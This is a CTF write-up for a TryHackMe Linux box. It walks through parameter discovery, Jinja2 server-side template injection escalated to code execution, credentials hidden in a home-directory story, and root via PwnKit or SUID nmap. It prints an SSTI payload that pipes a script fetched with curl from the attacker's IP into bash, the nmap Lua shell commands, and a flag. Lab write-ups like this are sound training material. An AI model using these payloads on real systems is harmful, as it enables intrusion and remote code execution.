








<div class="callout callout-info">

**Box Info**

**Platform:** TryHackMe, **OS:** Linux, **Difficulty:** Insane, **IP:** 10.10.167.63

</div>

<div class="callout callout-abstract">

**Attack Path**

1. Flask/Werkzeug app on `:8080` (Python 2.7). An obfuscated hint on the page decodes to *"…make use of the `?key` …"*.
2. `arjun` confirms the `key` parameter → **Jinja2 SSTI** (`{{7*7}}` → `49`).
3. Escalate SSTI to RCE (`SSTImap --os-shell`, or a `__globals__` payload) → shell as **minos**; recover `entrance:Knossos` from a home file → `sudo -u entrance`.
4. Root either via **PwnKit (CVE-2021-4034)** or the intended path: **`nmap` is SUID** → [GTFOBins nmap SUID](https://gtfobins.github.io/gtfobins/nmap/#suid).

</div>

---

## Full Walkthrough

### Nmap scan

```bash
Nmap scan report for theseus.thm (10.10.167.63)
Host is up, received user-set (0.086s latency).
Scanned at 2025-05-19 23:18:39 EDT for 15s
Not shown: 998 closed tcp ports (conn-refused)
PORT     STATE SERVICE REASON  VERSION
22/tcp   open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
8080/tcp open  http    syn-ack Werkzeug httpd 1.0.1 (Python 2.7.17)
| http-headers: 
|   Content-Type: text/html; charset=utf-8
|   Content-Length: 1247
|   Server: Werkzeug/1.0.1 Python/2.7.17
|   Date: Tue, 20 May 2025 03:18:53 GMT
|   
|_  (Request type: HEAD)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

The web application at `http://theseus.thm:8080/` greeted me with an oddly formatted string, `TGUE?O, S, K, MTUEGI, SYENFE, TOI,, SRO, T, SF, OYT,, O, T, KUMH, I, AE, NMK, `, that was clearly meant to be worked out rather than ignored. Once I worked through the encoding, it decoded into a message that was effectively handing me my next move:

```bash
TO·GET·TO·KING·MINOS·YOU·MUST·FIRST·MAKE·USE·OF·THE·?KEY·········
```



Taking the hint at face value, I tried supplying `key` as a query parameter, and the page reflected whatever value I gave it straight back into the response. That kind of direct reflection is exactly the sort of behavior worth fuzzing further, so my first idea was building a targeted wordlist from the site's own content with `cewl` rather than reaching for a generic dictionary:

```bash
cewl http://theseus.thm:8080/ -w wordlist.lst
```

That approach didn't turn up anything useful. I also checked whether the image on the page was hiding data through steganography, on the theory that a puzzle-heavy box like this one might layer more than one trick together, but that came back empty too.

Rather than keep guessing manually, I decided to let a proper parameter discovery tool take a pass at the endpoint:
```bash
└─[$] arjun -u http://theseus.thm:8080/                                                                                           [0:14:10]
    _
   /_| _ '
  (  |/ /(//) v2.2.1
      _/      

[*] Probing the target for stability
[*] Analysing HTTP response for anomalies
[*] Analysing HTTP response for potential parameter names
[*] Logicforcing the URL endpoint
[✓] parameter detected: key, based on: body length
[+] Parameters found: key
```

With `arjun` confirming `key` as a real parameter and the server's own headers already telling me this was a Python/Werkzeug application, server-side template injection was the obvious next thing to test. Flask applications commonly render user input through Jinja2, and if `key` was landing inside a template context unsanitized, a basic arithmetic payload would prove it immediately:

```http
GET /?key={{+7*7+}} HTTP/1.1
Host: theseus.thm:8080
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:138.0) Gecko/20100101 Firefox/138.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
DNT: 1
Sec-GPC: 1
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Priority: u=0, i
```

```http
HTTP/1.0 200 OK
Content-Type: text/html; charset=utf-8
Content-Length: 2
Server: Werkzeug/1.0.1 Python/2.7.17
Date: Tue, 20 May 2025 04:15:36 GMT

49
```

Getting `49` back confirmed the injection was live, since that's exactly `7*7` evaluated by the Jinja2 engine rather than the literal string. Manually crafting a full RCE payload from there was possible, but I chose to let `SSTImap` automate the escalation from confirmed injection to an interactive shell, since it already handles the different sandbox-escape payloads Jinja2 versions require:

```bash
python3 ~/SSTImap/sstimap.py -u "http://theseus.thm:8080/?key=test" --os-shell -l 5 -e jinja2
```



### First flag

That shell dropped me in as `minos`, and grabbing the first flag was the natural first move before digging any further into the box.

```bash
posix-linux2 $ cat /home/minos/Minos_Flag
THM{499a89a2a064426921732e7d31bc08a}
```



With the flag secured, I kept enumerating `minos`'s home directory for anything else useful and turned up another file worth reading in full, since this box's theme of hiding real credentials inside narrative text had already paid off once with the initial hint.

```bash
69022 -rw-r--r-- 1 minos minos 960 Aug 20  2020 /home/minos/Crete_Shores
posix-linux2 $ cat /home/minos/Crete_Shores
Theseus insisted he knew the dangers but
would succeed in his journey to Crete. 
As the ship left the harbour wall he 
shouted to his father King Aegeus "and 
you will be proud of your son".

"Then I wish you luck, my son, I shall
watch for you every day. If you are
successful, take down these black sails
and replace them with white ones. That way 
I will know you are coming safe to me."

As the ship docked in Crete, King Minos himself
came down to inspect the prisoners from Athens.
He enjoyed the chance to taunt the Athenians
and to humiliate them even further.

As King Minos jeered as to who would enter the
labyrinth first, Theseus stepped forward.

"I will go first. I am Theseus, Prince of Athens,
and I do not fear what is within the walls of
your maze."

"Those are brave words for one so young and 
feeble, but the Minotaur will soon have you
between its horns. Guards, open the labyrinth
and let him in!"

Username: entrance
Password: Knossos
posix-linux2 $ sudo -u entrance whoami
```

The story text also handed me a working credential, `entrance:Knossos`, which was a clear invitation to escalate to that account through `sudo -u entrance` rather than staying on the `SSTImap`-provided shell. Before doing that, though, I wanted a more stable foothold of my own, so I modified the SSTI payload directly to reach for a proper reverse shell instead of relying on the tool's built-in pseudo-shell.


```http
GET /?key={{request.application.__globals__.__builtins__.__import__('os').popen('curl+10.21.23.235:8000/shell+|+bash').read()}} HTTP/1.1
Host: theseus.thm:8080
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:138.0) Gecko/20100101 Firefox/138.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
DNT: 1
Sec-GPC: 1
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Priority: u=0, i
```



#### Getting root

With a shell as `entrance`, I checked the kernel and distro version out of habit, and it lined up with the vulnerable range for **PwnKit (CVE-2021-4034)**, a local privilege escalation in `pkexec`'s argument handling that had already become a reliable go-to for me on Ubuntu boxes from this era. I compiled the exploit for the target architecture, uploaded it, and executed it, and it dropped me straight into a root shell with no further effort.



#### Escalating Privileges the intended way

PwnKit got me there fast, but I wanted to go back and find the path the box actually intended, since a generic CVE isn't always the lesson a machine is trying to teach. Running through the standard SUID enumeration turned up something specific to this box:



The `nmap` binary itself was set SUID, which was the real giveaway. Older versions of `nmap` support an interactive scripting mode capable of running arbitrary Lua, and when the binary carries the SUID bit, that scripting engine executes with the file owner's privileges rather than the calling user's. [GTFOBins' nmap entry](https://gtfobins.github.io/gtfobins/nmap/#suid) documents the exact technique, so I followed it directly.

#### How to privesc using nmap SUID

```bash
(remote) minos@Minos:/tmp$ echo 'os.execute("/bin/sh")' > $TF
(remote) minos@Minos:/tmp$ sudo nmap --script=$TF

Starting Nmap 7.60 ( https://nmap.org ) at 2025-05-20 04:44 UTC
NSE: Warning: Loading '/tmp/tmp.CeE8tiLMAk' -- the recommended file extension is '.nse'.
\[\](remote)\[\] \[\]root@Minos\[\]:\[\]/tmp\[\]$ 
```


